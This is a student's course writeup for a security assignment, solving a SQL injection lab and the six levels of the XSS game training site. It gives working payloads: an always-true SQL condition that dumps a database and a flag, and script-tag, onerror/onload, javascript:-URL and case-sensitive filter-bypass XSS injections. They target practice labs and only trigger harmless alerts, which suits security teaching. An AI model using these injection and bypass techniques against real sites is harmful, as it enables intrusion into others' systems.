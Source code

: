 Writeup 10 - Crypto II
=====

Name: Mike Bailey
Section: 0201

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Mike Bailey

## Assignment 10 Writeup

### Part 1 (70 Pts)

For some odd reason, attempting to inject on the id parameter with `id=0' or '1'='1` didn't seem to work, but `?id=1' or '1'='1` did. It dumps the entire database (as `'1'='1'` is always true in all cases), including the flag:

`CMSC38R-{y0U-are_the_5ql_n1nja}`

![1.png](./1.png)


### Part 2 (30 Pts)

#1: 

This is a simple xss, the parameter is injectable with just a script tag:

`<script> alert(123); </script>`

#2:

I forget what I exactly used for this one, I believe I used the `onerror` attribute, and then injected an incorrect filepath to load the image from. Something like:

`</blockquote> <img src='./404' onerror=alert(123); > <blockquote>`


#3:

`onerror` again, this time embedded in the URL

`https://xss-game.appspot.com/level3/frame#4.jpg'onerror=alert(123); <img src=' /> //`

#4

Entering `');alert('123` into the timer field will result in the alert being issued when the loading image is... loaded:

`<img src="/static/loading.gif" onload="startTimer('');alert('123');" />`

#5 

`https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(123)`

Sets the `next` target to a js function, so that hitting next will execute the javascript alert.

#6

https://xss-game.appspot.com/level6/frame#Https://misker.me/alert.js

I created `alert.js` (just calls alert(123);) on my personal website, and the regex filter only matches lowercase "http" so "Https" of my website's address will slide by:

```
 if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
```